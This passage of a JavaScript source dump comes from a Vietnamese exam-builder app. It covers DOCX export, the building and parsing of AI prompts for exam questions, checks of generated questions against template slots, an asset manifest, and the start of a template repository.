    if (image) pageHeaderChildren.push(new Paragraph({ children: [new ImageRun({ type: image.type, data: image.data, transformation: { width: Math.round(options.width * 3.7795), height: Math.round(options.height * 3.7795) }, floating: { horizontalPosition: { relative: HorizontalPositionRelativeFrom.PAGE, offset: 0 }, verticalPosition: { relative: VerticalPositionRelativeFrom.PAGE, offset: 0 }, behindDocument: true, allowOverlap: true, wrap: { type: TextWrappingType.NONE } }, altText: { name: `Nền trang ${page.page_number}`, title: `Nền trang ${page.page_number}`, description: 'Nền nhập từ tài liệu gốc' } })] }));
    if (headerText) pageHeaderChildren.push(new Paragraph({ children: [new TextRun(headerText)] }));
    const pageChildren = [];
    if (Number(page.page_number) === Number(pageSpecs[0]?.page_number) && options.mode !== 'answer_key') {
      pageChildren.push(p(safeString(metadata.school || ''), { bold: true, after: 60 }));
      pageChildren.push(p(safeString(metadata.exam_title || template.display_name || 'Đề kiểm tra'), { bold: true, heading: HeadingLevel.TITLE }));
      pageChildren.push(p(`Môn: ${safeString(metadata.subject || template.defaults?.subject)}    Lớp: ${safeString(metadata.grade || template.defaults?.grade)}    Thời gian: ${safeString(metadata.duration_minutes || template.defaults?.duration_minutes)} phút`));
    }
    pageChildren.push(...(overlays.length ? overlays : [p('')]));
    return {
      properties: { page: { size: { width: twips(options.width), height: twips(options.height) }, margin: Object.fromEntries(Object.entries(options.margins).map(([k, v]) => [k, twips(v)])) }, column: { count: 1, space: twips(7) } },
      headers: pageHeaderChildren.length ? { default: new Header({ children: pageHeaderChildren }) } : undefined,
      footers: footer ? { default: footer } : undefined,
      children: pageChildren
    };
  }) : [];
  const hasMainContent = !hasPageBackgrounds || slots.some(({ slot }) => !placedSlotIds.has(slot.slot_id)) || options.mode === 'answer_key' || options.mode === 'combined';
  const mainSection = {
    properties: { page: { size: { width: twips(options.width), height: twips(options.height) }, margin: Object.fromEntries(Object.entries(options.margins).map(([k, v]) => [k, twips(v)])) }, column: { count: options.columns, space: twips(7) }, titlePage: Boolean(backgroundImage && backgroundConfig.apply_to === 'first') },
    headers,
    // titlePage dung footer rieng cho trang dau: phai gan lai de khong mat so trang.
    footers: footer ? { default: footer, ...(backgroundImage && backgroundConfig.apply_to === 'first' ? { first: resolveFooter(template, metadata) } : {}) } : undefined,
    children
  };
  const document = new Document({ sections: [...pageSections, ...(hasMainContent ? [mainSection] : [])] });
  return { buffer: await Packer.toBuffer(document), analysis };
}

module.exports = { analyzeTemplateExport, createTemplateDocx, normalizeOptions, loadMath };

```

### FILE: backend/templatePrompts/index.js

````javascript
const crypto = require('crypto');
const path = require('path');
const { pathToFileURL } = require('url');
const { RULESET_VERSION, GROUPS, VARIANTS, TYPE_TO_LEGACY, DIFFICULTY_TO_LEGACY, REPAIR_INTENTS, LEVEL_ORDER, getMathRules } = require('./rules');

const MAX_INPUT = 512 * 1024;
const LEGACY_TYPE = Object.fromEntries(Object.entries(TYPE_TO_LEGACY).map(([k, v]) => [v, k]));

function flatten(template) {
  if (!template || !Array.isArray(template.sections)) throw new Error('Template thiếu danh sách phần.');
  const slots = [];
  const seen = new Set();
  template.sections.forEach((section, sectionIndex) => {
    if (!section.section_id || !Array.isArray(section.slots)) throw new Error('Phần thiếu section_id hoặc slots.');
    section.slots.forEach((slot, slotIndex) => {
      if (!slot.slot_id || seen.has(slot.slot_id) || !TYPE_TO_LEGACY[slot.question_type]) throw new Error('Slot ID trùng/thiếu hoặc loại câu không hợp lệ.');
      seen.add(slot.slot_id);
      slots.push({ section, slot, sectionIndex, slotIndex });
    });
  });
  return slots;
}

function points(value) {
  if (typeof value !== 'string' && typeof value !== 'number') return null;
  const raw = String(value).trim();
  if (!/^\d+(?:\.\d{1,2})?$/.test(raw)) return null;
  return Math.round(Number(raw) * 100);
}

function selection(template, group, selectedSlotIds) {
  const all = flatten(template);
  if (!GROUPS.includes(group)) throw new Error('Nhóm prompt không hợp lệ.');
  if (group === 'FULL_EXAM') return all;
  if (!Array.isArray(selectedSlotIds) || !selectedSlotIds.length) throw new Error('Phải chọn ít nhất một slot.');
  const ids = new Set(selectedSlotIds);
  if (ids.size !== selectedSlotIds.length || selectedSlotIds.some(id => !all.some(item => item.slot.slot_id === id))) throw new Error('Danh sách slot chọn có ID trùng hoặc không tồn tại.');
  return all.filter(item => ids.has(item.slot.slot_id));
}

// Muc do AI phai tra ve cho slot: chi P3 tang/giam do kho moi lech muc cua slot.
function expectedDifficulty(slot, promptGroup, repairIntent) {
  const level = slot.difficulty_level;
  if (promptGroup !== 'REVIEW_REPAIR' || !LEVEL_ORDER.includes(level)) return level;
  const index = LEVEL_ORDER.indexOf(level);
  if (repairIntent === 'increase-difficulty') return LEVEL_ORDER[Math.min(index + 1, LEVEL_ORDER.length - 1)];
  if (repairIntent === 'decrease-difficulty') return LEVEL_ORDER[Math.max(index - 1, 0)];
  return level;
}
function checkRepairIntent(promptGroup, repairIntent) {
  if (promptGroup === 'REVIEW_REPAIR' && !Object.hasOwn(REPAIR_INTENTS, repairIntent)) throw new Error('Hành động kiểm tra/sửa không hợp lệ.');
}

function safeText(value) { return String(value ?? '').replace(/[\u0000-\u001f\u007f]+/g, ' ').trim(); }

function buildTemplatePrompt(input) {
  if (Buffer.byteLength(JSON.stringify(input || {}), 'utf8') > MAX_INPUT) throw new Error('Dữ liệu tạo prompt vượt giới hạn 512 KiB.');
  const { template, promptGroup = 'FULL_EXAM', aiVariant = 'ChatGPT', selectedSlotIds = [], examMetadata = {}, topic, referenceSections = [], teacherExtraInstructions = '', repairIntent = 'rewrite-one', currentContent = {} } = input;
  if (!Object.hasOwn(VARIANTS, aiVariant)) throw new Error('Đích AI không hợp lệ.');
  checkRepairIntent(promptGroup, repairIntent);
  const targets = selection(template, promptGroup, selectedSlotIds);
  const meta = { ...(template.defaults || {}), ...examMetadata };
  const parts = [
    `EXAMBUILDER ${RULESET_VERSION} — ${promptGroup} — ${aiVariant}`,
    'Bạn là trợ lý tạo nội dung câu hỏi kiểm tra. Chỉ xuất VĂN BẢN THUẦN gồm câu hỏi, đáp án và lời giải. Không tạo ảnh, nền, DOCX, PDF hoặc thiết kế trang.',
    VARIANTS[aiVariant],
    `Template: ${safeText(template.template_id)}; phiên bản ${safeText(template.template_version)}; tên ${safeText(template.display_name)}.`,
    `Thông tin đề: tên ${safeText(meta.exam_title || template.display_name)}; môn ${safeText(meta.subject)}; lớp ${safeText(meta.grade)}; chủ đề ${safeText(topic ?? meta.topic)}; thời gian ${safeText(meta.duration_minutes)} phút.`,
    `CÚ PHÁP BẮT BUỘC (TUÂN THỦ TUYỆT ĐỐI ĐỂ PARSER ĐỌC ĐƯỢC):
1. Mỗi phần bắt đầu bằng đúng dòng: =PHAN_1=, =PHAN_2=... (không thêm bớt ký tự, không viết hoa thường khác, không viết hoa =Phan 1=).
2. Mỗi câu hỏi bắt đầu bằng đúng dòng: [CAU_HOI] trên một dòng riêng.
3. Thứ tự các trường trong mỗi câu PHẢI ĐÚNG và ĐẦY ĐỦ:
   Ma_Khung: <chép chính xác Ma_Khung được chỉ định bên dưới>
   Ma_Phan: <chép chính xác Ma_Phan được chỉ định bên dưới>
   Diem: <chép chính xác Diem được chỉ định bên dưới, ví dụ 0.50>
   Loai: <TN | DUNG_SAI | DIEN_TU | TU_LUAN>
   Muc_Do: <Nhan_Biet | Thong_Hieu | Van_Dung | Van_Dung_Cao>
   De_Bai: <Nội dung câu hỏi, công thức toán dùng $...$ hoặc $$...$$>
   (Nếu là TN thì BẮT BUỘC có 4 dòng lựa chọn):
   A. <Nội dung đáp án A>
   B. <Nội dung đáp án B>
   C. <Nội dung đáp án C>
   D. <Nội dung đáp án D>
   Dap_An: <Chữ cái A, B, C hoặc D nếu TN; Dung hoặc Sai nếu DUNG_SAI; từ/cụm từ điền nếu DIEN_TU; đáp án ngắn nếu TU_LUAN>
   Loi_Giai: <Lời giải chi tiết từng bước, cách tính toán hoặc giải thích rõ ràng>
   So_Dong_Nhap: <chép chính xác số dòng được chỉ định>
4. QUY TẮC AN TOÀN CHỐNG LỖI CỦA AI:
   - KHÔNG bọc văn bản trong dấu code block markdown.
   - KHÔNG thêm lời chào, lời dẫn (ví dụ: "Dưới đây là đề thi...", "Hy vọng đề thi giúp ích..."), KHÔNG có lời kết.
   - KHÔNG được tự ý tạo thêm câu ngoài danh sách Ma_Khung bên dưới, KHÔNG được bỏ sót câu nào.
   - KHÔNG được đổi giá trị Diem hoặc So_Dong_Nhap.
   - Với trắc nghiệm (TN), Dap_An chỉ là MỘT chữ cái duy nhất (ví dụ: "Dap_An: B", không ghi "Dap_An: B. 5").
   - Lời giải (Loi_Giai) PHẢI chi tiết, không được để trống hoặc chỉ ghi lặp lại đáp án.`,
    'Loai: TN | DUNG_SAI | DIEN_TU | TU_LUAN. Muc_Do: Nhan_Biet | Thong_Hieu | Van_Dung | Van_Dung_Cao. TN cần bốn lựa chọn, Dap_An là một chữ A/B/C/D. DUNG_SAI dùng Dung/Sai. DIEN_TU có ___ trong De_Bai. TU_LUAN cần Dap_An và Loi_Giai đầy đủ.',
    getMathRules(),
    `CHỈ SINH ${targets.length} SLOT SAU:`
  ];
  let previousSection;
  targets.forEach(({ section, slot, sectionIndex, slotIndex }) => {
    if (section.section_id !== previousSection) {
      parts.push(`Phần ${sectionIndex + 1}: ${safeText(section.title)}; header đầu phần phải là dòng CHÍNH XÁC =PHAN_${sectionIndex + 1}=; Ma_Phan: ${safeText(section.section_id)}${section.stimulus ? `; ngữ liệu chung: ${safeText(section.stimulus)}` : ''}`);
      previousSection = section.section_id;
    }
    const lines = slot.answer_space?.lines ?? 0;
    parts.push(`${slotIndex + 1}. Ma_Khung: ${safeText(slot.slot_id)}; Ma_Phan: ${safeText(section.section_id)}; Diem: ${safeText(slot.points)}; Loai: ${TYPE_TO_LEGACY[slot.question_type]}; Muc_Do: ${DIFFICULTY_TO_LEGACY[expectedDifficulty(slot, promptGroup, repairIntent)] || safeText(slot.difficulty_level)}; So_Dong_Nhap: ${lines}; loại vùng trả lời: ${safeText(slot.answer_space?.kind)}.`);
  });
  if (promptGroup !== 'FULL_EXAM') parts.push('Mọi slot không liệt kê ở trên phải giữ nguyên. Không xuất lại nội dung của chúng.');
  if (promptGroup === 'REVIEW_REPAIR') {
    if (repairIntent === 'validate-only') parts.push('CHẾ ĐỘ CHỈ KIỂM TRA: chỉ xuất một đối tượng JSON văn bản {"rulesetVersion":"template-text-v1","issues":[{"slot_id":"...","severity":"warning|error","message":"...","suggested_fix":"..."}]}. Không xuất [CAU_HOI], không viết lại câu, không có Markdown. Đánh giá kiến thức chỉ là gợi ý để giáo viên xác nhận.');
    else parts.push(`Yêu cầu sửa (${repairIntent}): ${REPAIR_INTENTS[repairIntent]} Kiểm tra đáp án, lời giải, loại câu và điểm. Chỉ xuất bản sửa của các slot chọn; giáo viên sẽ duyệt diff trước khi áp dụng.`);
    for (const { slot } of targets) if (currentContent[slot.slot_id]) parts.push(`Nội dung hiện có của ${slot.slot_id}: ${safeText(JSON.stringify(currentContent[slot.slot_id]))}`);
  }
  if (referenceSections.length) parts.push(`NGỮ CẢNH THAM KHẢO:\n${referenceSections.map(safeText).join('\n---\n')}`);
  if (teacherExtraInstructions) parts.push(`YÊU CẦU THÊM CỦA GIÁO VIÊN (không được thay đổi cú pháp, phạm vi, điểm): ${safeText(teacherExtraInstructions)}`);
  if (!(promptGroup === 'REVIEW_REPAIR' && repairIntent === 'validate-only')) parts.push('CHỈ XUẤT các phần và khối [CAU_HOI] được yêu cầu, không lời mở đầu/kết, không Markdown. Ma_Khung, Ma_Phan, Diem là metadata cho adapter template.');
  const prompt = parts.join('\n\n');
  return { prompt, rulesetVersion: RULESET_VERSION, outputKind: promptGroup === 'REVIEW_REPAIR' && repairIntent === 'validate-only' ? 'review-report-v1' : 'question-blocks-v1', targetSlotIds: targets.map(x => x.slot.slot_id), sha256: crypto.createHash('sha256').update(prompt).digest('hex') };
}

function parseTemplateReviewReport(raw, selectedSlotIds) {
  const text = normalizeRaw(raw);
  let data;
  try { data = JSON.parse(text); } catch { throw new Error('Báo cáo kiểm tra phải là JSON hợp lệ.'); }
  if (!data || data.rulesetVersion !== RULESET_VERSION || !Array.isArray(data.issues)) throw new Error('Báo cáo kiểm tra sai schema hoặc phiên bản.');
  const ids = new Set(selectedSlotIds);
  if (data.issues.length > 100) throw new Error('Báo cáo kiểm tra có quá nhiều nhận xét.');
  const issues = data.issues.map((value, index) => {
    if (!value || !ids.has(value.slot_id) || !['warning', 'error'].includes(value.severity) || typeof value.message !== 'string' || value.message.length > 2000) throw new Error(`Nhận xét ${index + 1} không hợp lệ hoặc ngoài phạm vi.`);
    return { slot_id: value.slot_id, severity: value.severity, human_readable_message: value.message, suggested_fix: typeof value.suggested_fix === 'string' ? value.suggested_fix.slice(0, 2000) : '' };
  });
  return { rulesetVersion: RULESET_VERSION, issues, canApply: false };
}

function issue(code, severity, message, item = {}, field, expected, actual) {
  return { code, severity, section_id: item.section?.section_id ?? null, slot_id: item.slot?.slot_id ?? null, question_index: item.slotIndex == null ? null : item.slotIndex + 1, field: field ?? null, expected: expected ?? null, actual: actual ?? null, human_readable_message: message, suggested_fix: severity === 'error' ? 'Sửa dữ liệu AI rồi kiểm tra lại.' : 'Giáo viên xem và xác nhận trước khi áp dụng.' };
}

function normalizeRaw(raw) {
  if (typeof raw !== 'string' || !raw.trim()) throw new Error('Nội dung AI trống.');
  if (Buffer.byteLength(raw, 'utf8') > MAX_INPUT) throw new Error('Nội dung AI vượt giới hạn 512 KiB.');
  if (/[\u0000-\u0008\u000B\u000C\u000E-\u001F]/.test(raw)) throw new Error('Nội dung AI chứa ký tự điều khiển không hợp lệ.');
  let text = raw.replace(/^\uFEFF/, '').replace(/\r\n?/g, '\n').trim();
  const fence = text.match(/^```(?:text|plaintext)?\s*\n([\s\S]*?)\n```$/i);
  if (fence) text = fence[1].trim();
  return text;
}

async function parseTemplateResponse(raw) {
  const text = normalizeRaw(raw);
  const { TextPromptParser } = await import(pathToFileURL(path.join(__dirname, '..', 'parser', 'TextPromptParser.js')).href);
  const parser = new TextPromptParser();
  const chunks = text.split(/\[CAU_HOI\]/i);
  if (chunks.length < 2) throw new Error('Không tìm thấy [CAU_HOI].');
  const parsed = [];
  let sectionNumber = 0;
  for (let i = 1; i < chunks.length; i++) {
    const before = chunks[i - 1];
    const headers = [...before.matchAll(/(?:^|\n)\s*=+\s*PHAN_?(\d+)[^\n]*=+\s*(?:\n|$)/gi)];
    if (headers.length) sectionNumber = Number(headers.at(-1)[1]);
    const lines = chunks[i].split('\n');
    const body = [];
    const metadata = {};
    const counts = {};
    const fieldCounts = {};
    const fieldValues = {};
    for (const line of lines) {
      if (/^\s*=+\s*PHAN_?\d+/i.test(line)) break;
      const match = line.match(/^\s*(Ma_Khung|Ma_Phan|Diem)\s*:\s*(.*?)\s*$/i);
      if (match) {
        const key = match[1].toLowerCase();
        counts[key] = (counts[key] || 0) + 1;
        metadata[key] = match[2];
      } else {
        const field = line.match(/^\s*(Loai|Muc_Do|De_Bai|Dap_An|Loi_Giai|So_Dong_Nhap)\s*:/i);
        if (field) {
          const key = field[1].toLowerCase();
          fieldCounts[key] = (fieldCounts[key] || 0) + 1;
          fieldValues[key] = line.slice(field[0].length).trim();
        }
        body.push(line);
      }
    }
    const cleaned = `[CAU_HOI]\n${body.join('\n')}`;
    let question;
    try { question = parser.parse(`=PHAN_1=\n${cleaned}`)[0].questions[0]; }
    catch (error) { throw new Error(`Câu ${i}: ${error.message}`); }
    parsed.push({ metadata, counts, fieldCounts, fieldValues, question, sectionNumber, index: i, raw: cleaned });
  }
  return parsed;
}

async function prepareTemplateApply({ template, rawText, selectedSlotIds = [], promptGroup = 'FULL_EXAM', currentContent = {}, repairIntent = 'rewrite-one' }) {
  checkRepairIntent(promptGroup, repairIntent);
  const targets = selection(template, promptGroup, selectedSlotIds);
  const targetById = new Map(targets.map(item => [item.slot.slot_id, item]));
  const entries = await parseTemplateResponse(rawText);
  const issues = [];
  const assignments = [];
  const used = new Set();
  for (const entry of entries) {
    let item = targetById.get(entry.metadata.ma_khung);
    if (entry.metadata.ma_khung && !item) {
      issues.push(issue('UNEXPECTED_SLOT', 'error', `Câu ${entry.index}: Ma_Khung không thuộc phạm vi được chọn.`, {}, 'Ma_Khung', targets.map(x => x.slot.slot_id), entry.metadata.ma_khung));
      continue;
    }
    if (!item) {
      const candidates = targets.filter(x => !used.has(x.slot.slot_id) && x.slot.question_type === entry.question.question_type && (!entry.sectionNumber || x.sectionIndex + 1 === entry.sectionNumber));
      if (candidates.length === 1) {
        item = candidates[0];
        issues.push(issue('INFERRED_SLOT', 'warning', `Câu ${entry.index}: thiếu Ma_Khung; đã gợi ý slot duy nhất, cần giáo viên duyệt.`, item, 'Ma_Khung', item.slot.slot_id, null));
      } else {
        issues.push(issue('AMBIGUOUS_SLOT', 'error', `Câu ${entry.index}: thiếu Ma_Khung và không thể ghép chắc chắn.`, {}, 'Ma_Khung', null, null));
        continue;
      }
    }
    if (used.has(item.slot.slot_id)) { issues.push(issue('DUPLICATE_SLOT', 'error', `Slot ${item.slot.slot_id} xuất hiện nhiều lần.`, item, 'Ma_Khung')); continue; }
    used.add(item.slot.slot_id);
    if (entry.counts.ma_khung > 1 || entry.counts.ma_phan > 1 || entry.counts.diem > 1) issues.push(issue('DUPLICATE_METADATA', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: metadata bị lặp.`, item));
    if (Object.values(entry.fieldCounts).some(count => count > 1)) issues.push(issue('DUPLICATE_FIELD', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: trường câu hỏi bị lặp.`, item));
    if (/<\s*\/?\s*(script|iframe|object|embed|svg|img|style)\b/i.test(entry.raw)) issues.push(issue('UNSAFE_MARKUP', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: nội dung có thẻ HTML không an toàn.`, item));
    if (entry.metadata.ma_phan && entry.metadata.ma_phan !== item.section.section_id) issues.push(issue('SECTION_MISMATCH', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: Ma_Phan không khớp.`, item, 'Ma_Phan', item.section.section_id, entry.metadata.ma_phan));
    if (entry.sectionNumber && entry.sectionNumber !== item.sectionIndex + 1) issues.push(issue('SECTION_ORDER', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: header phần không khớp.`, item));
    if (entry.question.question_type !== item.slot.question_type) issues.push(issue('TYPE_MISMATCH', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: loại câu không khớp.`, item, 'Loai', item.slot.question_type, entry.question.question_type));
    const level = expectedDifficulty(item.slot, promptGroup, repairIntent);
    if (level && entry.question.difficulty_level !== level) issues.push(issue('DIFFICULTY_MISMATCH', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: mức độ không khớp.`, item, 'Muc_Do', level, entry.question.difficulty_level));
    const before = currentContent[item.slot.slot_id] ?? item.slot.content ?? null;
    if (promptGroup === 'REVIEW_REPAIR' && ['improve-solution', 'restyle-keep-answer'].includes(repairIntent) && before?.correct_answer && String(before.correct_answer).trim() !== String(entry.question.correct_answer ?? '').trim()) issues.push(issue('ANSWER_CHANGED', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: hành động này phải giữ nguyên đáp án.`, item, 'Dap_An', before.correct_answer, entry.question.correct_answer));
    if (entry.metadata.diem == null) issues.push(issue('LEGACY_POINTS', 'warning', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: văn bản cũ không có Diem; giữ điểm của template.`, item, 'Diem', item.slot.points, null));
    else if (points(entry.metadata.diem) !== points(item.slot.points)) issues.push(issue('POINTS_MISMATCH', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: điểm không khớp.`, item, 'Diem', item.slot.points, entry.metadata.diem));
    if (!entry.question.correct_answer || !entry.question.explanation) issues.push(issue('INCOMPLETE_ANSWER', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: thiếu đáp án hoặc lời giải.`, item, 'Dap_An/Loi_Giai'));
    if (entry.question.question_type === 'MCQ' && entry.question.options.length !== 4) issues.push(issue('OPTION_COUNT', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: TN phải có 4 lựa chọn.`, item, 'options', 4, entry.question.options.length));
    const expectedLines = Number(item.slot.answer_space?.lines || 0);
    if (entry.fieldValues.so_dong_nhap == null && expectedLines === 0) issues.push(issue('LEGACY_LINES', 'warning', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: văn bản cũ không có So_Dong_Nhap; giữ 0 dòng.`, item, 'So_Dong_Nhap', 0, null));
    else if (entry.fieldValues.so_dong_nhap == null || !/^\d+$/.test(entry.fieldValues.so_dong_nhap) || expectedLines !== Number(entry.fieldValues.so_dong_nhap)) issues.push(issue('LINES_MISMATCH', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: số dòng không khớp.`, item, 'So_Dong_Nhap', expectedLines, entry.fieldValues.so_dong_nhap ?? null));
    assignments.push({ slot_id: item.slot.slot_id, section_id: item.section.section_id, before, after: entry.question });
  }
  for (const item of targets) if (!used.has(item.slot.slot_id)) issues.push(issue('MISSING_SLOT', 'error', `Phần ${item.sectionIndex + 1} – Câu ${item.slotIndex + 1}: thiếu nội dung slot.`, item));
  return { rulesetVersion: RULESET_VERSION, valid: !issues.some(x => x.severity === 'error'), requiresReview: true, issues, assignments, targetSlotIds: targets.map(x => x.slot.slot_id), receivedCount: entries.length };
}

function applyTemplateDraft({ currentContent = {}, draft, confirmed = false }) {
  if (!confirmed) throw new Error('Cần xác nhận trước khi áp dụng nội dung AI.');
  if (!draft || !draft.valid || draft.rulesetVersion !== RULESET_VERSION) throw new Error('Bản nháp không hợp lệ hoặc khác phiên bản quy tắc.');
  const content = { ...currentContent };
  const undo = {};
  for (const assignment of draft.assignments) {
    undo[assignment.slot_id] = Object.hasOwn(content, assignment.slot_id) ? content[assignment.slot_id] : null;
    content[assignment.slot_id] = structuredClone(assignment.after);
  }
  return { content, undo };
}

module.exports = { RULESET_VERSION, GROUPS, VARIANTS, buildTemplatePrompt, parseTemplateResponse, parseTemplateReviewReport, prepareTemplateApply, applyTemplateDraft, flatten };

````

### FILE: backend/templatePrompts/rules.js

````javascript
const fs = require('fs');
const path = require('path');

const RULESET_VERSION = 'template-text-v1';
const GROUPS = Object.freeze(['FULL_EXAM', 'SELECTED_SLOTS', 'REVIEW_REPAIR']);
const VARIANTS = Object.freeze({
  ChatGPT: 'ĐẶC BIỆT VỚI CHATGPT: Tuyệt đối không dùng markdown fence ```, không giải thích hay chào hỏi trước/sau kết quả, bắt đầu ngay lập tức từ dòng tiêu đề phần đầu tiên.',
  Claude: 'ĐẶC BIỆT VỚI CLAUDE: Không viết lời mở đầu (như "Here is the exam..."), không viết lời kết; giữ nguyên 100% các mã định danh Ma_Khung và Ma_Phan.',
  Gemini: 'ĐẶC BIỆT VỚI GEMINI: Mỗi trường nằm trên đúng 1 dòng riêng; giữ nguyên dấu $ cho công thức LaTeX; không tự ý gộp đáp án hoặc đổi số câu.',
  DeepSeek: 'ĐẶC BIỆT VỚI DEEPSEEK: Tuyệt đối không xuất thẻ <think> hay phần suy luận nội bộ ra ngoài; chỉ xuất văn bản câu hỏi cuối cùng theo đúng định dạng.',
  Grok: 'ĐẶC BIỆT VỚI GROK: Giữ nguyên tất cả dấu phân cách =PHAN_X= và [CAU_HOI]; luôn điền đầy đủ đáp án chính xác và lời giải chi tiết từng bước.'
});
const TYPE_TO_LEGACY = Object.freeze({ MCQ: 'TN', TRUE_FALSE: 'DUNG_SAI', FILL_BLANK: 'DIEN_TU', ESSAY: 'TU_LUAN' });
const DIFFICULTY_TO_LEGACY = Object.freeze({ NB: 'Nhan_Biet', TH: 'Thong_Hieu', VD: 'Van_Dung', VDC: 'Van_Dung_Cao' });
// Hanh dong P3 duoc phep; chi hai hanh dong doi muc do moi duoc doi Muc_Do cua slot.
const REPAIR_INTENTS = Object.freeze({
  'rewrite-one': 'Sửa câu chọn cho đúng kiến thức, đáp án, lời giải và định dạng; giữ nguyên mức độ.',
  regenerate: 'Sinh lại câu mới hoàn toàn cho slot chọn, cùng loại câu, mức độ, điểm và số dòng.',
  'increase-difficulty': 'Viết lại câu chọn khó hơn đúng một mức (theo Muc_Do mới được chỉ định bên dưới).',
  'decrease-difficulty': 'Viết lại câu chọn dễ hơn đúng một mức (theo Muc_Do mới được chỉ định bên dưới).',
  'improve-solution': 'Giữ nguyên đề bài, các lựa chọn và đáp án; chỉ viết lại Loi_Giai đầy đủ, chặt chẽ hơn.',
  'restyle-keep-answer': 'Đổi cách diễn đạt đề bài cho rõ ràng hơn nhưng KHÔNG đổi đáp án đúng, ý nghĩa và mức độ.',
  'validate-only': 'Chỉ kiểm tra, không viết lại câu.'
});
const LEVEL_ORDER = Object.freeze(['NB', 'TH', 'VD', 'VDC']);

// Reuse the existing source for math conventions, without its fixed two-section/count rules.
function getMathRules() {
  const source = fs.readFileSync(path.join(__dirname, '..', '..', 'Gemini_Prompt_Unified.txt'), 'utf8');
  const match = source.match(/━+ CÁCH VIẾT CÔNG THỨC TOÁN ━+([\s\S]*?)(?=━+ SỐ LƯỢNG CÂU HỎI ━+)/);
  if (!match) throw new Error('Không tìm thấy quy tắc toán trong Gemini_Prompt_Unified.txt');
  return `QUY TẮC TOÁN TỪ NGUỒN CHUNG:\n${match[1].trim()}`;
}

module.exports = { RULESET_VERSION, GROUPS, VARIANTS, TYPE_TO_LEGACY, DIFFICULTY_TO_LEGACY, REPAIR_INTENTS, LEVEL_ORDER, getMathRules };

````

### FILE: backend/templates/assetManifest.js

```javascript
const ASSET_ID = /^(image|document)-([0-9a-f]{64})$/;

function buildAssetManifest(template, existing = []) {
  if (!template || typeof template !== 'object') return Array.isArray(existing) ? existing : [];
  const refs = new Map();
  const add = (assetId, role, pageNumber = null, details = {}) => {
    const match = typeof assetId === 'string' && assetId.match(ASSET_ID);
    if (!match) return;
    const old = (Array.isArray(existing) ? existing : []).find(asset => asset?.asset_id === assetId) || {};
    refs.set(assetId, {
      ...old, ...details, asset_id: assetId, sha256: match[2], kind: match[1], role,
      ...(pageNumber == null ? {} : { page_number: Number(pageNumber) }),
      transfer: 'reference_only', local_availability: old.local_availability || 'not_verified',
      fallback: 'keep_exam_content_and_use_basic_layout_when_asset_is_missing'
    });
  };
  const background = template.appearance?.background || {};
  add(background.source_asset_id, 'source_document');
  add(background.asset_id, 'page_background');
  for (const page of Array.isArray(background.pages) ? background.pages : []) add(page?.asset_id, 'page_background', page?.page_number, page);
  for (const section of Array.isArray(template.sections) ? template.sections : []) for (const slot of Array.isArray(section?.slots) ? section.slots : []) {
    for (const asset of Array.isArray(slot?.assets) ? slot.assets : []) add(typeof asset === 'string' ? asset : asset?.asset_id, 'question_illustration', null, typeof asset === 'object' ? asset : {});
  }
  return refs.size ? [...refs.values()].sort((a, b) => a.asset_id.localeCompare(b.asset_id)) : (Array.isArray(existing) ? existing : []);
}

module.exports = { buildAssetManifest };

```

### FILE: backend/templates/repository.js

```javascript
const crypto = require('crypto');
const { getDb } = require('../database');
const { withLock } = require('../mutex');
const { getSeed, listSeeds } = require('./seeds');
const { validateTemplate } = require('./validation');

class TemplateError extends Error {
  constructor(status, message, details) { super(message); this.status = status; this.details = details; }
}

function cloneTemplate(source, name) {
  const template = structuredClone(source);
  const id = `user.${crypto.randomUUID()}`;
  template.template_id = id;
  template.template_version = 1;
  template.origin = 'user';
  template.is_builtin = false;
  template.display_name = name || `${source.display_name} (bản sao)`;
  template.cloned_from = { template_id: source.template_id, template_version: source.template_version };
  template.sections.forEach((section, si) => {
    section.section_id = `${id}.s${String(si + 1).padStart(2, '0')}`;
    section.slots.forEach((slot, qi) => {
      slot.slot_id = `${section.section_id}.q${String(qi + 1).padStart(3, '0')}`;
      slot.position = qi;
    });
  });
  return template;
}

function assertValid(template) {
  const details = validateTemplate(template);
  if (details.length) throw new TemplateError(400, 'Dữ liệu mẫu không hợp lệ', details);
}

async function listTemplates(options = {}) {
  const db = await getDb();
  const rows = await db.all(`SELECT v.payload_json FROM TEMPLATE t JOIN TEMPLATE_VERSION v
    ON v.template_id = t.template_id AND v.template_version = t.current_version
    WHERE t.deleted_at IS NULL ORDER BY t.updated_at DESC`);
  let templates = [...listSeeds(), ...rows.map(row => JSON.parse(row.payload_json))];
  if (options.origin) templates = templates.filter(t => t.origin === options.origin);
  if (options.search) {
    const search = String(options.search).toLocaleLowerCase('vi');
    templates = templates.filter(t => `${t.display_name} ${t.description || ''} ${t.category || ''}`.toLocaleLowerCase('vi').includes(search));
  }
  return templates;
}

async function getTemplate(id, version) {
  const seed = getSeed(id);
  if (seed) return version && Number(version) !== 1 ? null : seed;
  const db = await getDb();
  const row = await db.get(`SELECT v.payload_json FROM TEMPLATE t JOIN TEMPLATE_VERSION v
    ON v.template_id = t.template_id AND v.template_version = ?
    WHERE t.template_id = ? AND t.deleted_at IS NULL`, [version || (await db.get('SELECT current_version FROM TEMPLATE WHERE template_id = ? AND deleted_at IS NULL', [id]))?.current_version, id]);
  return row ? JSON.parse(row.payload_json) : null;
}

async function createTemplate(template) {
  assertValid(template);
  if (template.origin !== 'user' || template.is_builtin || !template.template_id.startsWith('user.') || getSeed(template.template_id) || template.template_version !== 1) throw new TemplateError(400, 'Chỉ có thể tạo mẫu tùy chỉnh phiên bản 1');
  return withLock(async () => {
    const db = await getDb();
    try {
      await db.exec('BEGIN IMMEDIATE');
